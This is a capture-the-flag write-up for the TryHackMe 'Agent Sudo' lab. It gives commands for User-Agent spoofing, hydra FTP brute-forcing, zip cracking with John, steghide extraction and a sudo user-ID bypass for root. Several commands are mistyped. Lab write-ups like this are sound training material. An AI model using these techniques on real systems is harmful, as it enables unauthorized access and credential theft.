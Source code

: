 ```yaml
---
layout: page
title: Agent Sudo
permalink: /agentSudo
---
```

# ![front](/images/agentsudo/front.png)
[https://tryhackme.com/room/agentsudoctf](https://tryhackme.com/room/agentsudoctf)

## Open Ports:
  - 21: ftp
  - 22: ssh
  - 80: HTTP
  
## Port 80:
1. **Index Page**
![1](/images/agentsudo/1.png)
  - we can brute force different Agents
  ```
    >Curl "http://ip" -H "User-Agent: A" -L
    >Curl "http://ip" -H "User-Agent: B" -L
    >Curl "http://ip" -H "User-Agent: C" -L
  ```
![2](/images/agentsudo/2.png)

## Port 21:
1. Brute force ftp using **Hydra**  to find the _password_
  ```
  hydra -l cxxxx -P /rockyou.txt ftp://ip
  ```
![3](/images/agentsudo/3.png)
2. After logging we will find 3 files _(1 txt, 2 imgs)_
  - binwalk the image we find a zip file inside the image
  - As the zip file is password protected we can use **johnTheRipper** to crack it.
    ```
    John2zip 8072.zip > hash.txt
    John hash.txt --wordlist=/rockyou.tx
    ```
![4](/images/agentsudo/4.png)
 3. Now we find a text file for Agent R
  - It has the passwd in base64
    ```
    echo " " |base64-d (Area51)
    ```
 4. Extracting cute-alien.jpeg file using the password found in **To_AgentR.txt**
    ```
    steghide extract -sf cute-alien.jpeg
    ```
![5](/images/agentsudo/5.png)

   
## Gaining Access:
 **We Found username and password in _message.txt_**
 1. Logging in via ssh
 
### USER Flag:
![user](/images/agentsudo/user.png)
2.Download the image 
  - scp james@ip:/home/james/image.jpeg .
  - Now search in the web (_use google image search_)
 


## Privilege Escalation:
 1. sudo -l
   - [All,!root] /bin/bash
   **To bypass this**
    ```
    sudo #u-1 /bin/bash
    ```
### Root Flag:
![root](/images/agentsudo/root.png)
